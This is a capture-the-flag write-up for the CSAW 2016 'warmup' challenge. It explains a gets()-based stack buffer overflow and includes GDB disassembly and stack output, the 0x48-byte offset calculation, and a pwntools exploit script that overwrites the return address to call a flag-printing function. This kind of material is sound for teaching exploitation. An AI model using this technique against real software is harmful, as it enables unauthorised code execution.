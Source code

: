 # Csaw 2016 Quals Warmup

Let's take a look at the binary:

![intro_data](pics/intro_data.png)

So we can see that we are dealing with a 64 bit binary. When we run it, it displays an address (looks like an address from the code section of the binary, versus another section like the libc) and prompts us for input. When we look at the main function in Ghidra, we see this:

![intro_data](pics/main.png)


So we can see that the address being printed is the address of the function `easy` (which when we look at it's address in Ghidra we see it's `0x40060d`). After that we can see it calls the function `gets`, which is a bug since it doesn't limit how much data it scans in (and since `input` can only hold `64` bytes of data, after we write `64` bytes we overflow the buffer and start overwriting other things in memory). With that bug we can totally reach the return address (the address on the stack that is executed after the `ret` call to return execution back to whatever code called it). For what to call, we see that the `easy` function will print the flag for us (in order to print the flag, we will need to have a `flag.txt` file in the same directory as the executable):

![intro_data](pics/main.png)


So let's use gdb to figure out how much data we need to send before overwriting the return address, so we can land the bug. I will just set a breakpoint for after the `gets` call:

```
gef➤  disas main
Dump of assembler code for function main:
   0x000000000040061d <+0>:    push   rbp
   0x000000000040061e <+1>:    mov    rbp,rsp
   0x0000000000400621 <+4>:    add    rsp,0xffffffffffffff80
   0x0000000000400625 <+8>:    mov    edx,0xa
   0x000000000040062a <+13>:    mov    esi,0x400741
   0x000000000040062f <+18>:    mov    edi,0x1
   0x0000000000400634 <+23>:    call   0x4004c0 <write@plt>
   0x0000000000400639 <+28>:    mov    edx,0x4
   0x000000000040063e <+33>:    mov    esi,0x40074c
   0x0000000000400643 <+38>:    mov    edi,0x1
   0x0000000000400648 <+43>:    call   0x4004c0 <write@plt>
   0x000000000040064d <+48>:    lea    rax,[rbp-0x80]
   0x0000000000400651 <+52>:    mov    edx,0x40060d
   0x0000000000400656 <+57>:    mov    esi,0x400751
   0x000000000040065b <+62>:    mov    rdi,rax
   0x000000000040065e <+65>:    mov    eax,0x0
   0x0000000000400663 <+70>:    call   0x400510 <sprintf@plt>
   0x0000000000400668 <+75>:    lea    rax,[rbp-0x80]
   0x000000000040066c <+79>:    mov    edx,0x9
   0x0000000000400671 <+84>:    mov    rsi,rax
   0x0000000000400674 <+87>:    mov    edi,0x1
   0x0000000000400679 <+92>:    call   0x4004c0 <write@plt>
   0x000000000040067e <+97>:    mov    edx,0x1
   0x0000000000400683 <+102>:    mov    esi,0x400755
   0x0000000000400688 <+107>:    mov    edi,0x1
   0x000000000040068d <+112>:    call   0x4004c0 <write@plt>
   0x0000000000400692 <+117>:    lea    rax,[rbp-0x40]
   0x0000000000400696 <+121>:    mov    rdi,rax
   0x0000000000400699 <+124>:    mov    eax,0x0
   0x000000000040069e <+129>:    call   0x400500 <gets@plt>
   0x00000000004006a3 <+134>:    leave  
   0x00000000004006a4 <+135>:    ret    
End of assembler dump.
gef➤  b *main+134
Breakpoint 1 at 0x4006a3
gef➤  r
Starting program: /Hackery/pod/modules/bof_callfunction/csaw16_warmup/warmup
-Warm Up-
WOW:0x40060d
>15935728
[ Legend: Modified register | Code | Heap | Stack | String ]
───────────────────────────────────────────────────────────────── registers ────
$rax   : 0x00007fffffffde50  →  "15935728"
$rbx   : 0x0               
$rcx   : 0x00007ffff7dcfa00  →  0x00000000fbad2288
$rdx   : 0x00007ffff7dd18d0  →  0x0000000000000000
$rsp   : 0x00007fffffffde10  →  "0x40060d"
$rbp   : 0x00007fffffffde90  →  0x00000000004006b0  →  <__libc_csu_init+0> push r15
$rsi   : 0x35333935        
$rdi   : 0x00007fffffffde51  →  0x0038323735333935 ("5935728"?)
$rip   : 0x00000000004006a3  →  <main+134> leave
$r8    : 0x0000000000602269  →  0x0000000000000000
$r9    : 0x00007ffff7fda4c0  →  0x00007ffff7fda4c0  →  [loop detected]
$r10   : 0x0000000000602010  →  0x0000000000000000
$r11   : 0x246             
$r12   : 0x0000000000400520  →  <_start+0> xor ebp, ebp
$r13   : 0x00007fffffffdf70  →  0x0000000000000001
$r14   : 0x0               
$r15   : 0x0               
$eflags: [ZERO carry PARITY adjust sign trap INTERRUPT direction overflow resume virtualx86 identification]
$cs: 0x0033 $ss: 0x002b $ds: 0x0000 $es: 0x0000 $fs: 0x0000 $gs: 0x0000
───────────────────────────────────────────────────────────────────── stack ────
0x00007fffffffde10│+0x0000: "0x40060d"     ← $rsp
0x00007fffffffde18│+0x0008: 0x000000000000000a
0x00007fffffffde20│+0x0010: 0x0000000000000000
0x00007fffffffde28│+0x0018: 0x0000000000000000
0x00007fffffffde30│+0x0020: 0x0000000000000000
0x00007fffffffde38│+0x0028: 0x0000000000000000
0x00007fffffffde40│+0x0030: 0x0000000000000000
0x00007fffffffde48│+0x0038: 0x0000000000000000
─────────────────────────────────────────────────────────────── code:x86:64 ────
     0x400694 <main+119>       rex.RB ror BYTE PTR [r8-0x77], 0xc7
     0x400699 <main+124>       mov    eax, 0x0
     0x40069e <main+129>       call   0x400500 <gets@plt>
 →   0x4006a3 <main+134>       leave  
     0x4006a4 <main+135>       ret    
     0x4006a5                  nop    WORD PTR cs:[rax+rax*1+0x0]
     0x4006af                  nop    
     0x4006b0 <__libc_csu_init+0> push   r15
     0x4006b2 <__libc_csu_init+2> mov    r15d, edi
─────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "warmup", stopped, reason: BREAKPOINT
───────────────────────────────────────────────────────────────────── trace ────
[#0] 0x4006a3 → main()
────────────────────────────────────────────────────────────────────────────────

Breakpoint 1, 0x00000000004006a3 in main ()
gef➤  search-pattern 15935728
[+] Searching '15935728' in memory
[+] In '[heap]'(0x602000-0x623000), permission=rw-
  0x602260 - 0x602268  →   "15935728"
[+] In '[stack]'(0x7ffffffde000-0x7ffffffff000), permission=rw-
  0x7fffffffde50 - 0x7fffffffde58  →   "15935728"
gef➤  i f
Stack level 0, frame at 0x7fffffffdea0:
 rip = 0x4006a3 in main; saved rip = 0x7ffff7a05b97
 Arglist at 0x7fffffffde90, args:
 Locals at 0x7fffffffde90, Previous frame's sp is 0x7fffffffdea0
 Saved registers:
  rbp at 0x7fffffffde90, rip at 0x7fffffffde98
```

With a bit of math, we see the offset:

![python3](pics/python3.png)

We can also see this in the stack layout in ghidra. Here we see that `input` is stored at offset `-0x48`. This is the offset from `input` to the saved stack return addrress (although I have seen this be wrong in certaint scenarios):

![stack_frame](pics/stack_frame.png)

So we can see that after `0x48` bytes of input, we start overwriting the return address. With all of this, we can write the exploit;
```
from pwn import *

target = process('./warmup')
#gdb.attach(target, gdbscript = 'b *0x4006a3')

# Make the payload
payload = ""
payload += "0"*0x48 # Overflow the buffer up to the return address
payload += p64(0x40060d) # Overwrite the return address with the address of the `easy` function

# Send the payload
target.sendline(payload)

target.interactive()
```

When we run it:
```
$    python exploit.py
[+] Starting local process './warmup': pid 4652
[*] Switching to interactive mode
-Warm Up-
WOW:0x40060d
>flag{g0ttem_b0yz}
[*] Got EOF while reading in interactive
```

Just like that, we got the flag! As a sidenote, I've heard of instances where in certain enviornments the offset is `0x40` instead of `0x48`.

